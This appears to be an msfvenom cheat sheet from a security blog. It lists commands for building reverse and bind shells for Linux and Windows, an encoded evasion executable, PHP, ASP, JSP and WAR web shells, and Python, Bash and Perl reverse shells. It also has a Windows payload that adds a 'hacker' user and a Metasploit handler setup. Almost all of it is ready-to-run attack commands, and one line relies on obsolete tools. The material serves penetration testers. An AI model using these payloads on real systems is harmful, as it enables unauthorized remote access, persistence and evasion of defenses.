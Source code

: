 ## MSFVenom Cheatsheet 

![Msfvenom.png]https://cyberbotnet.com/assets/images/post5/Msfvenom.png)

### Binaries Payloads

#### Linux Meterpreter Reverse Shell
```shell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f elf > shell.elf
```
#### Linux Bind Meterpreter Shell
```shell
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > bind.elf
```
#### Linux Bind Shell
```shell
msfvenom -p generic/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > term.elf
```
#### Windows Meterpreter Reverse TCP Shell
```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe
```
#### Windows Reverse TCP Shell
```shell
msfvenom -p windows/shell/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe
```
#### Windows Encoded Meterpreter Windows Reverse Shell
```shell
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe
```
### Web Payloads
#### PHP Meterpreter Reverse TCP
```shell
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php
```
#### ASP Meterpreter Reverse TCP
```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f asp > shell.asp
```
#### JSP Java Meterpreter Reverse TCP
```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp
```
#### WAR
```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.wa
```
### Scripting Payloads
#### Python Reverse Shell
```shell
msfvenom -p cmd/unix/reverse_python LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.py
```
#### Bash Unix Reverse Shell
```shell
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
```
#### Perl Unix Reverse shell
```shell
msfvenom -p cmd/unix/reverse_perl LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.pl
```
### Others
#### Create User
```shell
msfvenom -p windows/adduser USER=hacker PASS=Hacker123$ -f exe > adduser.exe
```
#### Avoid bad characters
```shell
msfpayload windows/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> R | msfencode -b '\x00' -e x86/shikata_ga_nai -t perl
```
#### Metasploit Handler
```shell
use exploit/multi/handler
set PAYLOAD <Payload name>
Set RHOST <Remote IP>
set LHOST <Local IP>
set LPORT <Local Port>
Run
```
